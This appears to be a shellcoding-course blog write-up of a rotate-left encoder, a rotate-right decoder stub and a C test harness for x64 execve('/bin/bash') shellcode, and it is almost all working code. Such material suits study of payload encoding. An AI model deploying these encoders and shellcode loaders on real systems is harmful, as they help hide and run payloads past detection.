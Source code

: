 ```yaml
---
title: SLAE64 Assignment 4 - ROL Encoder 
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the fourth assignment of the SLAE64 I created a Rotate Left (ROL) Encoder and a Rotate Right (ROR) decoder.   
The ROL encoder is a python program that rotates every byte of the payload to the left by 1 bit. The companion ROR decoder rotates every byte of the payload to the right by 1 bit, and then passes execution to the decoded payload. The example payload is an execve shellcode that spawns a bash shell.

# The Python Rotate Left (ROL) Encoder 

```python
#!/usr/bin/python
shellcode  = "\x48\x31\xf6"     # xor rsi, rsi
shellcode += "\x48\xf7\xe6"     # mul rsi          ; rdx&rax= 0x0
shellcode += "\x48\x31\xff"     # xor rdi, rdi
shellcode += "\x57"             # push rdi
shellcode += "\x48\x83\xc2\x68" # add rdx, 0x68
shellcode += "\x52"             # push rdx
shellcode += "\x48\xba\x2f\x62\x69\x6e\x2f\x62\x61\x73" # movabs rdx, 0x7361622f6e69622f
shellcode += "\x52"             # push rdx
shellcode += "\x48\x31\xd2"     # xor rdx, rdx
shellcode += "\x48\x89\xe7"     # mov rdi, rsp ; rdi = Pointer -> "/bin/bash"0x00
shellcode += "\xb0\x3b"         # mov al, 0x3b ; execve syscall number
shellcode += "\x0f\x05";        # syscall  ; call execve("/bin/bash", NULL, NULL)

encoded = ""
for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded += '0x'
        encoded += '%02x,' %x  # Add the rotated left hex to string
    else:
        encoded += '0x'        # No leftmost bit, just rotate
        encoded += '%02x,' %(x << 1)
print encoded+"0xaa"
print 'Len: %d' % len(bytearray(shellcode))
```  

+ The byte 0xaa is added to the end of the payload. This is how our ROR decoder will know it has reached the end of the payload.

## Encoding the Payload
```bash
root# python rotateLeftEncoder.py
0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,0x90,0x07,\
0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,0xdc,0x5e,0xc4,0xc2,\
0xe6,0xa4,0x90,0x62,0xa5,0x90,0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
Len: 36
```

# The Rotate Right (ROR) Decoder

```nasm
; Filename: rotateRightDecoder.nasm
; Author:   boku
global _start
section .text
_start:
  jmp short call_decoder ; 1. jump to shellcode string
decoder:
  pop rsi                ; 3. RSI=&String 
decode:
  ror byte [rsi], 1      ; 4. decode byte with bitwise rotate right
  cmp byte [rsi], 0x55   ; 5. Last byte? ror 0xaa, 1 = 0x55
  je Shellcode           ;    - Yes? jump to payload and execute
  inc rsi                ; 6. No? Move forward 1 byte
  jmp short decode       ; 7. Lets decode the next byte
call_decoder:
  call decoder           ; 2. [RSP]=&String
  Shellcode: db 0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,\
                0x90,0x07,0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,\
                0xdc,0x5e,0xc4,0xc2,0xe6,0xa4,0x90,0x62,0xa5,0x90,\
                0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
```

## Getting the ROR Decoder Shellcode

```bash
root# cat getshellcode.sh
#!/bin/bash
asmFile=$1
noExt=$(echo $asmFile | sed 's/\..*$//g')
objFile=$noExt".o"
nasm -f elf64 $asmFile -o $objFile
for i in $(objdump -D $objFile | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo ''

root# ./getshellcode.sh rotateRightDecoder.asm
\xeb\x0d\x5e\xd0\x0e\x80\x3e\x55\x74\x0a\x48\xff
\xc6\xeb\xf4\xe8\xee\xff\xff\xff\x90\x62\xed\x90
\xef\xcd\x90\x62\xff\xae\x90\x07\x85\xd0\xa4\x90
\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4\x90\x62
\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa
```

# Testing the ROR Decoder

```c
// Shellcode Title:  Linux/x64 - ROL Encoded Execve Shellcode (57 bytes)
// Shellcode Author: Bobby Cooke
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x0d"              // jmp short call_decoder
// decoder:
"\x5e"                  // pop rsi = &String
// decode:
"\xd0\x0e"              // ror byte [rsi], 1
"\x80\x3e\x55"          // cmp byte [rsi], 0x55 - last byte? ror 0xaa, 1 = 0x55
"\x74\x0a"              // je Shellcode - End? Jump to shellcode!
"\x48\xff\xc6"          // inc rsi - Not end? move 2 next byte
"\xeb\xf4"              // jmp short decode - loop 2 decode next byte
// call_decoder:
"\xe8\xee\xff\xff\xff"  // call decoder // go 2 decode loop
// Execve(/bin/bash) ROL Encoded Shellcode
"\x90\x62\xed\x90\xef\xcd\x90\x62\xff\xae\x90\x07\x85"
"\xd0\xa4\x90\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4"
"\x90\x62\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa";

int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}

```

## Final Test

```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3067 pts/3    Ss     0:00 /bin/bash
root# ./shellcode
Shellcode Length:  57
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3501 pts/3    S      0:00 [bash]
```
